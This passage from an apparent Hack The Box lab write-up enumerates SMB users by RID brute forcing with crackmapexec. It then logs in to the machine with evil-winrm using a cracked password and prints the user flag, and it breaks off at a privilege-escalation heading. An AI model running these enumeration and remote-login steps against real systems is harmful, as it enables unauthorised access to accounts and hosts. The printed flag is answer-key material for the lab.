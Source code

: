 So far we have three different passwords (`One Cracked using Hashcat` and `Two Cracked using ciscot7.py` and three usernames `rout3r`, `admin`, `Hazard`
### RID Brute Force Attack

Using `crackmapexec` we are going to RID Cycling Brute Force attack and enumerate users using the `Hazard's` credentials. I tried couple of combinations before finding the valid credentials for the user `Hazard`

```
# crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

all right, we got list of usernames. Let's try `evil-winrm` on each one.

### User Flag

```
# evil-winrm -i 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
cd*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
e683ee801d2dde0fac8a7c0ce2818ea7
*Evil-WinRM* PS C:\Users\Chase\Desktop> 
```

Get your User Flag

### Privilege Escalation 
